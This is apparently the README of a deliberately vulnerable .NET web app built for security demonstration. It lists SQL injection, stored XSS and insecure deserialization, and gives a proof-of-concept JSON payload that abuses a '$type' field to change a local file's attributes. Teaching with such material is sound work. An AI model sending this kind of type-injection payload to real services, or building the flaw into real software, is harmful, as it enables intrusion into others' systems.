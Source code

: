 # VulnerableWebApp

This app currently contains two known vulnerabilities:

- [SQL injection](https://github.com/lboynton/VulnerableWebApp/blob/6671242ec890e9a4ba027d98413c03ddd50c41f8/Controllers/Api/Posts.cs)
- [Stored XSS](https://github.com/lboynton/VulnerableWebApp/blame/35336373287e4414865bb474899c35fbbcdedc0f/Views/Posts/Index.cshtml#L27)
- [Insecure Deserialization]()

# Insecure deserialization
Call the `POST /api/posts` endpoint with the following payloads.

## Exploit POC

First run `touch /tmp/rce-test.txt && chmod 777 /tmp/rce-test.txt`. Then send the following payload to the API:

```
{
    "input": {
        "$type":"System.IO.FileInfo, System.IO.FileSystem",
        "fileName":"/tmp/rce-test.txt",
        "IsReadOnly": true
    }
}
```

Then run `ls -l /tmp/rce-test.txt` and you should see that the file is now read-only.

## Valid data
```
{
    "input": {
        "Title":"testing"
    }
}
```
